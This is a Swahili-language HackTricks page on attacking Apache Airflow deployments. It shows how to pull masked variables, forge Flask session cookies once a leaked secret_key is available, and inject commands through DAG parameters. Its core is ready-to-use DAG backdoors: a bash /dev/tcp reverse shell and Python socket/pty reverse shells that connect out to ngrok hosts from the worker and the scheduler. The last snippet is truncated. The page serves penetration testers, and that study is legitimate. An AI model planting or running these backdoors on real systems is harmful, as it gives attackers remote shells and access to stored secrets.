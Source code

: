# Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) inatumika kama jukwaa la **kuandaa na kupanga mipango ya data au kazi**. Neno "kuandaa" katika muktadha wa mipango ya data linaashiria mchakato wa kupanga, kuratibu, na kusimamia kazi ngumu za data zinazotokana na vyanzo mbalimbali. Lengo kuu la mipango hii ya data iliyopangwa ni kutoa seti za data zilizopangwa na zinazoweza kutumika. Seti hizi za data zinatumika sana na maelfu ya programu, ikiwa ni pamoja na lakini sio tu zana za akili ya biashara, sayansi ya data na mifano ya kujifunza mashine, ambazo zote ni msingi wa utendaji wa programu za big data.

Kwa msingi, Apache Airflow itakuruhusu **kupanga utekelezaji wa msimbo wakati kitu** (tukio, cron) **kinatokea**.

### Local Lab

#### Docker-Compose

Unaweza kutumia **faili ya usanidi ya docker-compose kutoka** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) kuanzisha mazingira kamili ya apache airflow docker. (Ikiwa uko kwenye MacOS hakikisha unatoa angalau 6GB ya RAM kwa VM ya docker).

#### Minikube

Njia rahisi moja ya **kufanya kazi apache airflo**w ni kuikimbia **na minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow inaweza kuhifadhi **taarifa nyeti** katika usanidi wake au unaweza kupata usanidi dhaifu ulio katika nafasi:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Kabla ya kuanza kushambulia Airflow unapaswa kuelewa **jinsi ruhusa zinavyofanya kazi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

Ikiwa una **ufikiaji wa console ya wavuti** unaweza kuwa na uwezo wa kufikia baadhi au yote ya taarifa zifuatazo:

* **Variables** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* **Connections** (Taarifa nyeti za kawaida zinaweza kuhifadhiwa hapa)
* Fikia kwenye `http://<airflow>/connection/list/`
* [**Configuration**](./#airflow-configuration) (Taarifa nyeti kama **`secret_key`** na nywila zinaweza kuhifadhiwa hapa)
* Orodha ya **watumiaji & majukumu**
* **Code ya kila DAG** (ambayo inaweza kuwa na taarifa za kuvutia)

#### Retrieve Variables Values

Variables zinaweza kuhifadhiwa katika Airflow ili **DAGs** ziweze **kufikia** thamani zao. Ni sawa na siri za majukwaa mengine. Ikiwa una **ruhusa za kutosha** unaweza kuzifikia kwenye GUI katika `http://<airflow>/variable/list/`.\
Airflow kwa kawaida itaonyesha thamani ya variable kwenye GUI, hata hivyo, kulingana na [**hii**](https://marclamberti.com/blog/variables-with-apache-airflow/) inawezekana kuweka **orodha ya variables** ambazo **thamani** zitakuwa zinaonekana kama **asterisks** katika **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Hata hivyo, hizi **thamani** bado zinaweza **kupatikana** kupitia **CLI** (unahitaji kuwa na ufikiaji wa DB), **kutekeleza DAG** isiyo na mipaka, **API** inayofikia mwisho wa variables (API inahitaji kuwezeshwa), na **hata GUI yenyewe!**\
Ili kufikia hizo thamani kutoka kwenye GUI chagua tu **variables** unazotaka kufikia na **bonyeza kwenye Actions -> Export**.\
Njia nyingine ni kufanya **bruteforce** kwa **thamani iliyofichwa** kwa kutumia **uchujaji wa utafutaji** hadi upate:

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

Ikiwa usanidi wa **`expose_config`** umewekwa kuwa **True**, kutoka **jukumu la Mtumiaji** na **juu** wanaweza **kusoma** **config kwenye wavuti**. Katika usanidi huu, **`secret_key`** inaonekana, ambayo inamaanisha mtumiaji yeyote mwenye hii halali wanaweza **kuunda cookie yao iliyosainiwa ili kujifanya kuwa akaunti nyingine yoyote ya mtumiaji**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE katika Airflow worker)

Ikiwa una **ufikiaji wa kuandika** mahali ambapo **DAGs zimehifadhiwa**, unaweza tu **kuunda moja** ambayo itakutumia **reverse shell.**\
Kumbuka kwamba reverse shell hii itatekelezwa ndani ya **airflow worker container**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE katika Airflow scheduler)

Ikiwa utaweka kitu kifanyike **katika mzizi wa msimbo**, wakati wa kuandika hii, kita **fanywa na scheduler** baada ya sekunde chache baada ya kukiweka ndani ya folda ya DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Uundaji wa DAG

Ikiwa utafanikiwa **kushambulia mashine ndani ya klasta ya DAG**, unaweza kuunda **scripts za DAG** mpya katika folda ya `dags/` na zitakuwa **zinakopiwa katika mashine nyingine** ndani ya klasta ya DAG.

#### Uingiliaji wa Kode ya DAG

Unapotekeleza DAG kutoka kwa GUI unaweza **kupitisha hoja** kwake.\
Hivyo, ikiwa DAG haijakodishwa vizuri inaweza kuwa **na udhaifu wa Uingiliaji wa Amri.**\
Hivyo ndivyo ilivyotokea katika CVE hii: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Kila unachohitaji kujua ili **kuanza kutafuta uingiliaji wa amri katika DAGs** ni kwamba **parameta** zinapatikana kwa kode **`dag_run.conf.get("param_name")`**.

Zaidi ya hayo, udhaifu sawa unaweza kutokea na **mabadiliko** (zingatia kwamba kwa ruhusa ya kutosha unaweza **kudhibiti thamani ya mabadiliko** katika GUI). Mabadiliko yanapatikana kwa:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Ikiwa zinatumika kwa mfano ndani ya amri ya bash, unaweza kufanya uingizaji wa amri.

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
